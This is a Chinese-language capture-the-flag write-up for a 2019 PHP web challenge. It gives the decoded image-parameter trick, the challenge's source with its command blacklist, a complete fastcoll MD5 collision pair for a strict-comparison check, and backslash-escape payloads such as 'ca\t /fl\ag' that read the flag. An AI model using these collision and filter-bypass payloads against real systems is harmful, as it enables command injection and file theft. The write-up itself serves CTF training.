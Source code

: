 # \[安洵杯 2019]easy\_web

## \[安洵杯 2019]easy\_web

## 考点

* fastcoll进行md5碰撞
* 命令执行bypass

## wp

进去发现URL有问题`index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=`

尝试对其base64解码，发现解不出，加个`=`再试试，两次base64，一次hex

```
TXpVek5UTTFNa1UzTURaRk5qYz0=
MzUzNTM1MkU3MDZFNjc=
3535352E706E67
555.png
```

读取index.php，`index.php?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3`

得到代码

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
?>
```

MD5是强制转换为string再比较，只能使用fastcoll进行碰撞

![](<../../.gitbook/assets/image (20) (1).png>)

`fastcoll_v1.0.0.5.exe -p a.txt -o 1.txt 2.txt`

```
a=dada%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%81z%CE%10%97%DD%29%E5%E7%82%C4%F0%05n%BE%87ykQ%A9p%D2%9D%B83jC%BA%CA%A1F%FA%17%1D%10%C0N%87%2BPG%22%E1C%8F5%3E%87%14%81%80%1D%AB0%ACF%C7%0E%BD%A6%E8%C4%269%C9y%18%D9j%84%07%93w2%26%0D%C9%E89O2%1C%DA2%0D%26F%25%D1Zv%3D%ECG%DE%E5f%A5%C6%1A%F4%D2%FF%CC%CAsx%B7%B6de%26n%0B%EF%1D%83m%EB%08%B8%9F%AB%3FVZ%9A%E8&b=dada%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%81z%CE%10%97%DD%29%E5%E7%82%C4%F0%05n%BE%87ykQ%29p%D2%9D%B83jC%BA%CA%A1F%FA%17%1D%10%C0N%87%2BPG%22%E1C%8F%B5%3E%87%14%81%80%1D%AB0%ACF%C7%0E%BD%26%E8%C4%269%C9y%18%D9j%84%07%93w2%26%0D%C9%E89O2%1C%DA%B2%0D%26F%25%D1Zv%3D%ECG%DE%E5f%A5%C6%1A%F4%D2%FF%CC%CAsx%B7%B6%E4d%26n%0B%EF%1D%83m%EB%08%B8%9F%AB%BFVZ%9A%E8
```

然后绕命令执行，虽然禁用了ls，但是dir还可以使用

![](<../../.gitbook/assets/image (10) (1) (1) (1).png>)

空格不能直接敲，要用用%20代替，

过滤了`flag`和`cat`，用`\`绕过，`?cmd=ca\t%20/fl\ag` 查看flag

或者是`?cmd=sort%20/fl\ag`
